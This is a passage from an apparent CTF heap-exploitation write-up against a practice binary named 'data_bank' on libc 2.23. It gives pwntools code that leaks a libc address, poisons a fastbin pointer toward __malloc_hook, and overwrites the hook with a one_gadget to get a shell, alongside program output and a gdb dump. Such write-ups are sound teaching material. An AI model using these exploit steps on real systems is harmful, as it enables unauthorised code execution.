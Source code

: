 Now, we will parse the values and print it:-

```py
leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("main_arena:   0x%x" %(leak))
libc.address = leak - 0x3c4b78
malloc_hook = libc.address + 0x3c4b10
log.info("LIBC:         0x%x" %(libc.address))
```

Running the exploit, we will get:-

```bash
130 [15:05:19] vagrant@oracle(oracle) doublefree> python3 data_bank.py 
[+] Starting program './data_bank': PID 4109
[*] Analyzing /lib/x86_64-linux-gnu/libc-2.23.so
[*] main_arena:   0x7fd835b6fb78
[*] LIBC:         0x7fd8357ab000
[*] Switching to interactive mode
1) Add data
2) Edit data
3) Remove data
4) View data
5) Exit
>> $  
```

# Getting shell

Okay, now it is not very confusing, when we call `malloc` it calls an internal function called `__malloc_hook` which does the work of returning the memory pointer. Okay, so now we have the LIBC address and we can calculate the `__malloc_hook` address, how we overwrite it? Remember the `fd` pointer of the `fastbins`, yes, we are going to overwrite it with the address of the `__malloc_hook`, since the `fd` is a pointer to the next free chunk, we will write primitve address on that address. Okay, so we will edit the chunk `fd` and then get the `__malloc_hook` address from the `malloc`:-


```py
edit(2, p64(malloc_hook - 0x23)[:6])
```
The reason I did `malloc_hook - 0x23` is because the heap checks if the size of the chunk is withing the fastbin range, and if we see the data in `gdb` with `x/xg &__malloc_hook - 0x23` we will see the size field(if considering the memory as chunk) has 

```r
gef➤  x/20xg 0x00007fd712c2eaed
0x7fd712c2eaed <_IO_wide_data_0+301>:	0xd712c2d260000000	0x000000000000007f
0x7fd712c2eafd:	0xd7128efea0000000	0xd7128efa7000007f
```

So, as you can see we have `0x7f` which passed the check without any hassle, now we will just need to overwrite the data up until to the address of `__malloc_hook` and we will be done.
```py
payload = b"\x00"*19
payload += p64(libc.address + 0xf0364)
add(5, 100, payload)
```
